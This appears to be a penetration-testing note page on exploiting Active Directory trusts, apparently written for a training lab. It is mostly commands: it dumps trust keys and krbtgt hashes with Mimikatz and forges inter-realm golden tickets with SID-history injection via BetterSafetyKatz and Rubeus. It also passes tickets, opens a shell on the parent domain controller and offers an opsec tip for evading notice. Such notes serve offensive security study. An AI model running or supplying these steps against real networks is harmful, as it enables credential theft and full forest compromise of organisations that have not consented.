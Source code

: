 # Trusts

## Trust Flow

The Diagram below shows how Client from trusted domain can ask for access to other Domain's service.\\

We can see that in order to allow access to the service hosted on Domain B, a TGT is returned within a TGS-REP signed with the Inter-Realm Trust Key.

<img src="../../.gitbook/assets/file.excalidraw (2).svg" alt="" class="gitbook-drawing">

## Exploitation

It is possible to exploit the TGS REQ (marked red in the diagram above) by forging new TGT using the trust key. (SIDHistory)

### Get the trust key

The trust key is required to forge the Inter-Realm TGT.

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

### Forge the Inter-Realm TGT

Note that krbtgt can be used instead of the trust key.

{% code overflow="wrap" %}
```batch
# Child to parent 
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<current_domain_sid> /sids:<sid_to_inject> /rc4:<trust_key> /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"

# Using krbtgt hash - No need to request for tgs later
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# Across Forest
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /rc4:2756bdf7dd8ba8e9c40fe60f654115a0 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\trust_forest_tkt.kirbi" "exit" 
```
{% endcode %}

| Options   | Description                                      |
| --------- | ------------------------------------------------ |
| /domain:  | FQDN of the current domain                       |
| /sid:     | SID of the current domain                        |
| /sids     | SID to be injected to the SID history            |
| /rc4:     | RC4 of the trust key                             |
| /krbtgt:  | krbtgt hash can be used instead of the Trust Key |
| /user:    | User to impersonate                              |
| /service: | Target service in the parent domain              |
| /target:  | FQDN of the parent domain                        |
| /ticket   | Path to save the ticket                          |

{% code overflow="wrap" %}
```batch
# Same can be done with Rubeus
# Child to parent
Rubeus.exe evasive-silver /service:krbtgt/dollarcorp.moneycorp.local /rc4:<trust_key> /sid:<sid_current_domain> /sids:<enterprise_admin_group_sid> /ldap /user:Administrator /nowrap

# Using krbtgt hash - No need to request for tgs later
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /user:Administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848  /netbios:dcorp /ptt

# Accross Forest
Rubeus.exe evasive-silver /service:krbtgt/dollarcorp.moneycorp.local /rc4:<trust_key> /sid:<sid_current_domain> /ldap /user:Administrator /nowrap
```
{% endcode %}

**id** is always the RID of the **default built-in domain Administrator** account.\
Also, instead of putting Enterprise Admin Group SID, put `Domain Controllers SID, Enterrpise Domain Controllers SID` . It's opsec safe cause a domain admin is signing in to a enterprise admin level machine doesn't look normal.

### Request the TGS and pass it

{% code overflow="wrap" %}
```batch
# Forge the ticket
Rubeus.exe asktgs /service:http/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt /ticket:C:\AD\Tools\trust_tkt.kirbi
```
{% endcode %}

After that any attack can be performed according to the service requested.

### Test the privilege

```batch
winrs -r:mcorp-dc cmd
```
